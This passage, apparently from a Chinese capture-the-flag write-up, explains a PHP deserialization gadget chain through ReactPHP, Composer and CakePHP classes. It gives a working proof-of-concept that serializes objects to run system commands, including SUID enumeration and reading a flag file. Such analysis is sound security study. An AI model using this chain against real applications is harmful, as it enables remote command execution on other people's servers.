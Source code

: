 ```php
        }
    }
    $this-&gt;_intermediate = [];
    $this-&gt;_executed = true;
}
```

这样的话 `$mapper` 和 `$reducer` 都可以用来执行命令，我这里使用 `$mapper`

所以要利用的链子是

```pop
RejectedPromise::__destruct()-&gt;Pool::__toString()-&gt;MapReduce::_execute()
```



 

poc 如下

```php
&lt;?php

namespace React\Promise\Internal;
use Composer\DependencyResolver\Pool;
class RejectedPromise {
    private $reason;
    private $handled = false;
    public function __construct() {
        $this-&gt;reason = new Pool();
    }
}

namespace Composer\DependencyResolver;
use Cake\Collection\Iterator\MapReduce;
class Pool {
    protected $packages = [];
    public function __construct() {
        $this-&gt;packages = new MapReduce();
    }
}

namespace Cake\Collection\Iterator;
class MapReduce {
    protected bool $_executed = false;
    protected iterable $_data;
    protected $_mapper;
    public function __construct() {
        $this-&gt;_mapper = &#34;call_user_func&#34;;
        // $cmd = &#34;ls /&#34;;
        // $cmd = &#34;cat /flag.txt&#34;;
        // $cmd = &#34;find / -perm -u=s -type f 2&gt;/dev/null&#34;;
        // $cmd = &#34;find / -name flag.txt -exec whoami \;&#34;;
        $cmd = &#34;find / -name flag.txt -exec cat /flag.txt \;&#34;;
        $this-&gt;_data = [$cmd=&gt;&#34;system&#34;];
    }
}

namespace React\Promise\Internal;
echo base64_encode(serialize(new RejectedPromise()));

?&gt;
```
